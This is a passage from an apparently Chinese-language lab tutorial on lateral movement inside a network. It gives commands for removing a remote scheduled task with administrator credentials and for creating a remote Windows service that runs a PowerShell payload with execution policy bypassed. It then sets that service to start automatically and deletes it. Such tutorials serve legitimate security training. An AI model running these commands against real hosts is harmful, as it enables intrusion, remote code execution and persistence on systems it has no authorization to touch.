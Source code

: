 

执行如下命令删除指定计划任务

```
schtasks /delete /u Administrator /p qq123456 /s 192.168.47.133 /tn Mytask /f
```

![image-20230830160131674](内网横向移动/image-20230830160131674.png)



### 6.创建系统服务		

执行如下命令为目标主机创建系统服务

```
sc \\192.168.47.133 create "MyService" binpath= "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1"
```

![image-20230830161934057](内网横向移动/image-20230830161934057.png)

​	

设置指定系统服务开机自启动

```
sc \\192.168.47.133 config "MyService" start=auto
```

![image-20230830162015959](内网横向移动/image-20230830162015959.png)

​	

删除指定系统服务

```
sc \\192.168.47.133 delete "MyService"
```

![image-20230830162032141](内网横向移动/image-20230830162032141.png)	


